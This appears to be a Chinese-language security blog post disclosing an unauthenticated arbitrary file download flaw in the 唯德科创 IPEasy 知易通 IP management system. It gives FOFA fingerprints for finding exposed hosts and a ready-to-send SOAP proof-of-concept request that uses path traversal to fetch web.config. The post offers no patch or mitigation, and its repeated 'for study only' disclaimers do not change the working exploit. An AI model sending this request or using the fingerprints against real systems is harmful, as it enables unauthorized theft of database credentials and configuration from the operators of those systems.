 #  唯德科创 IPEasy 知易通 DownloadFile 任意文件下载漏洞   
 HK安全小屋   2025-06-04 13:28  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
漏洞描述：  
  
唯徳知识产权管理系统 DownloadFileWordTemplate 接口存在文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。  
  
  
影响版本：  
  
唯德科创 IPEasy 知易通  
  
  
FOFA:  
```
body="JSCOMM/language.js"
icon_hash="511014626"
```  
  
  
POC：  
```
POST /AutoUpdate/WSFM.asmx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Length: 389
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
Soapaction: "http://tempuri.org/DownloadFileWordTemplate"
Connection: close
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <DownloadFileWordTemplate xmlns="http://tempuri.org/">
      <fileName>../../web.config</fileName>
    </DownloadFileWordTemplate>
  </soap:Body>
</soap:Envelope>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI0rYEsh40E5ssKWFv8Lyc7eZlCltOvKprn6IMUmiauj1PhPYNU4JYguu3F0NhC7rZcmnrdEqUiaRoew/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
--------  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
  
  
  
